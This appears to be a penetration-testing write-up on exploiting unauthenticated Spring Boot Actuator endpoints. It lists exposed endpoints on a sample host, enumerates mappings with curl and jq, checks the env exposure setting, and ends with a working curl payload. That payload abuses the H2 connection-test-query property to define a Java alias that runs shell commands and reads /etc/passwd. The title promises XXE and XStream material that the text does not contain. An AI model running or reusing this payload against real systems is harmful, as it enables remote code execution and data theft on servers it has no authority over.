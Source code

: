 # Spring Boot Actuator unauthorized access [XXE, RCE]

Environment attribute coverage and XStream deserialization caused RCE due to improper configuration of Spring Boot 2.x.  


####Actuator
Let's check if the actuator endpoint exists:

    GET http://_**vulnerable_host**_:9090/actuator

We don't need all of these. I trimmed out the relevant section into result.txt:  

- The target site has enabled unauthorized access to the env endpoint, the path is: http://1.2.3.4:9090/actuator/env
- The target site has enabled unauthorized access to the beans endpoint, the path is: http://1.2.3.4:9090/actuator/beans
- The target site has enabled unauthorized access to the configprops endpoint, the path is: http://1.2.3.4:9090/actuator/configprops
- The target site has enabled unauthorized access to the health endpoint, the path is: http://1.2.3.4:9090/actuator/health
- The target site has enabled unauthorized access to the info endpoint, the path is: http://1.2.3.4:9090/actuator/info
- The target site has enabled unauthorized access to the mappings endpoint, the path is: http://1.2.3.4:9090/actuator/mappings
- The target site has enabled unauthorized access to the metrics endpoint, the path is: http://1.2.3.4:9090/actuator/metrics


####Methods

Grab the mapping, and parse out the available methods if doing this "off of the cuffs". Although we have the available API methods from the docs or from the env/actuator path, we _can possibly_ find an API or application it's hosting.

Op:

    curl -s http://1.2.3.4:9090/actuator/mappings | jq -r '.contexts.application.mappings.dispatcherServlets.dispatcherServlet[].predicate'

Result:

![](.images/2020-05-25-11-54-14.png)

The public qcm paths look interesting, but these won't work without auth. (Look at keycloak section for ~~abusing~~ researching ~*sic~ this part.)
![](.images/2020-05-25-11-57-31.png)


####Environment
So an exposed H2 database and actuator/env endpoint, gives us what we need.

In the env, we're checking for `management.endpoints.web.exposure.include` to see if this is restricted or not  .

SPOILERS: - ![#000000](https://via.placeholder.com/17/000000/FFFFFF/?text=it%27s%20not). Just wow. `"management.endpoints.web.exposure.include":{"value":"*  "`

_this only works if Vary: Access-Control-Request-Headers allows POST_
> thanks @spaceraccoon

    curl -X 'POST' \
        -H 'Content-Type: application/json' \
        --data-binary $'{\"name\":\"spring.datasource.hikari.connection-test-query\",\"value\":\"CREATE ALIAS EXEC AS CONCAT(\'String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new\',\' java.util.Scanner(Runtime.getRun\',\'time().exec(cmd).getInputStream()); if (s.hasNext()) {return s.next();} throw new IllegalArgumentException(); }\');CALL EXEC(\'grep root /etc/passwd\');\"}' \
        'http://localhost:8080/actuator/env'
